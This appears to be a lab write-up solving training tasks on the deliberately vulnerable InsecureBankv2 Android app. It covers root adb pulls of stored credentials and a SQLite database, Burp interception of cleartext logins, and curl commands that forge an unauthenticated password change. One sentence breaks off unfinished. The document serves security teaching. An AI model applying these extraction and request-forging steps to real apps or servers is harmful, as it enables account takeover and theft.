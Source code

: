 # Tasks
This file contains tasks related to Android mobile reversing.

## Insecure data storage

### Exploiting local data storage

#### Task 1: Find and read the Android Shared Preferences
1. Find the package name

This requires root. With images that use Google APIs,
you may easily get root by entering the following command:
```
$ adb root
```

Without Google API, you may 

Another way, and how I chose to solve this, was using _su_
as in the following snippet:
```bash
Android-InsecureBankv2> adb shell
generic_x86:/ $ su
generic_x86:/ # pm list packages | grep <packagename>
```

2. Copy all preferences to your machine.

Often you would like to have files locally on your machine,
and not on the device you are reversing. To do this, you
need root on the device. However, using _su_ will not do the
magic for us now as that is just within the shell. With images 
that use Google APIs, you may use:
```bash
$ adb root
```

And then, you can use another _adb_ command to pull the file
to you local machine:
```bash
$ adb pull /data/data/<package_name>/shared_prefs/<preference_file>.xml
```

3. Does the file contain anything juicy?

Hellz yeah, it does!
```bash
Android-InsecureBankv2> cat .\mySharedPreferences.xml
<?xml version='1.0' encoding='utf-8' standalone='yes' ?>
<map>
    <string name="superSecurePassword">DTrW2VXjSoFdg0e61fHxJg==&#10;    </string>
    <string name="EncryptedUsername">ZGluZXNo&#13;&#10;    </string>
</map>
```

#### Task 2: 
1. Where are the database(s) for this application located?

`/data/data/com.android.insecurebankv2/databases`

2. Copy the database out of the device

`adb pull /data/data/com.android.insecurebankv2/databases .`

3. What type of database is this?

SQLite 3:
```bash
$ cd databases
$ file mydb
mydb: SQLite 3.x database, user version 1, last written using SQLite version 3019004
```

4. Dump the schema
```bash
$ sqlite3 mydb
SQLite version 3.22.0 2018-01-22 18:45:57
Enter ".help" for usage hints.
sqlite> .schema
CREATE TABLE android_metadata (locale TEXT);
CREATE TABLE names (id INTEGER PRIMARY KEY AUTOINCREMENT,  name TEXT NOT NULL);
CREATE TABLE sqlite_sequence(name,seq);
```

5. List all tables
```bash
sqlite> .tables
android_metadata  names
```

6. Dump all the tables
```bash
sqlite> .dump names
PRAGMA foreign_keys=OFF;
BEGIN TRANSACTION;
CREATE TABLE names (id INTEGER PRIMARY KEY AUTOINCREMENT,  name TEXT NOT NULL);
INSERT INTO names VALUES(1,'dinesh');
COMMIT;
sqlite> .dump android_metadata
PRAGMA foreign_keys=OFF;
BEGIN TRANSACTION;
CREATE TABLE android_metadata (locale TEXT);
INSERT INTO android_metadata VALUES('en_US');
COMMIT;
```


### Task 1
To solve all of the following tasks, Burp Suite was used to intercept all the
traffic coming from the Android emulator. To do this, first install Burp. Open
Burp and click the `Proxy` tab. Ensure that intercept is `on`. To make the app
use Burp as a proxy, go into settings in the emulator and click the `proxy` tab.
Enter the IP address of your computer and set the port to 8080, which is the
default port used by Burp. Traffic should now go through Burp.

What happens when you log in?
1. What protocol is used?
`HTTP`

2. Is it encrypted?
No. Only HTTP is used, not HTTPS.

3. Can you see any sensitive data?
Yes, username and password is sent in clear text.

4. Can you identify other API endpoints?
In the Transfer-menu:
* `/getaccounts` when you press `Get Accounts`
* `/dotransfer` when you press `Transfer`
In the main menu:
* `/changepassword` when you press `Change Password`

Forging requests
1. Can you change the password of `dinesh` without logging in first?
Yes, there is no validation on the server to see if you are already logged in.
We can simply send a POST request to `/changepassword` on the server with the
expected parameters.
From looking at intercepted requests in Burp, we know that the request looks
like this:

```
POST /changepassword HTTP/1.1
Content-Length: 48
Content-Type: application/x-www-form-urlencoded
Host: 192.168.1.105:8888
Connection: close
User-Agent: Apache-HttpClient/UNAVAILABLE (java 1.4)

username=<username>&newpassword=<password>
```
The easiest way to send a forged request is to click Action -> Send to repeater
in Burp. This allows you to click on the `Repeater` tab, change the contents as
you want, and send the modified request.

You can also use curl like this:
```bash
$ curl -d "username=dinesh&newpassword=lol" http://192.168.1.105:8888/changepassword
{"message": "Change Password Successful"}
```
And then verify that we can still log in:
```bash
$ curl -d "username=dinesh&password=lol" http://192.168.1.105:8888/login
{"message": "Correct Credentials", "user": "dinesh"}
```


2. Any other requests you can forge?
We can forge all requests to the server, as there's no checks in place to make
sure that we are logged in. We could transfer money between two accounts, for
example!
